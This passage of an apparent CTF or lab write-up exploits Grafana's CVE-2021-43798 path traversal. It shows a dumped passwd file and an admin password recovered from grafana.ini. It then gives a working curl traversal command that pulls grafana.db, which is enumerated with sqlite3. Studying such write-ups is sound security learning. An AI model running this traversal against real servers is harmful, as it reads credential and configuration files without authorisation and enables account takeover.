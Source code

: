 ```bash
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```

```shell
└─$ cat passwd | grep bash                  
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

So the intel I got earlier was useful in a way, now it's time to get the targetted file `/etc/grafana/grafana.ini`, and I got it! saved the output to a file and started analyzing it, and finding the password of the `admin` user wasn't that hard. `messageInABottle685427`.

![Grafana Admin Password](img/grafana_adminpass.png)

Logged in as `admin` and it worked! Now time to google some stuff...

Upon reading more articles about this CVE I found this [Github Repo](https://github.com/jas502n/Grafana-CVE-2021-43798) which has a list of useful files that might be in interest, I had no access to any SSH keys or anything but I saw this `/var/lib/grafana/grafana.db` file, so I got it using the previous exploit and tried to run it using `sqlite3`:

```bash
└─$ curl --path-as-is http://$IP:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  644k  100  644k    0     0   330k      0  0:00:01  0:00:01 --:--:--  330k
                                                                                                                                                             
└─$ file grafana.db 
grafana.db: SQLite 3.x database, last written using SQLite version 3035004, file counter 553, database pages 161, cookie 0x119, schema 4, UTF-8, version-valid-for 553
```

Perfect.

```bash
└─$ sqlite3 grafana.db 
SQLite version 3.39.3 2022-09-05 11:02:23
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
```